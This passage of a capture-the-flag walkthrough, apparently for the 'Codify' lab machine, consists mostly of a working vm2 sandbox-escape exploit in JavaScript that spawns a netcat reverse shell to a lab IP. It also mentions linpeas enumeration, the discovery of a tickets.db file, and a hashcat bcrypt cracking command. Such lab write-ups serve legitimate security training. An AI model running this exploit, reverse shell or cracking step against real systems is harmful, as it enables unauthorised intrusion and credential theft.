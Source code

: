Modified payload
```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.50 9001 >/tmp/f").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

![[/assets/images/codify5.png]]

![[/assets/images/codify7.png]]
# Linpeas
![[/assets/images/codify8.png]]
![[/assets/images/codify9.png]]
![[/assets/images/codify10.png]]
![[/assets/images/codify11.png]]

Checking `/var/www`, there is a contacts directory with `tickets.db`.

![[/assets/images/codify12.png]]

![[/assets/images/codify13.png]]

Check hash cat modes 
3200 bcrypt. 

```sh 
hashcat -m 3200 joshua /usr/share/wordlists/rockyou.txt
```

![[/assets/images/codify14.png]]
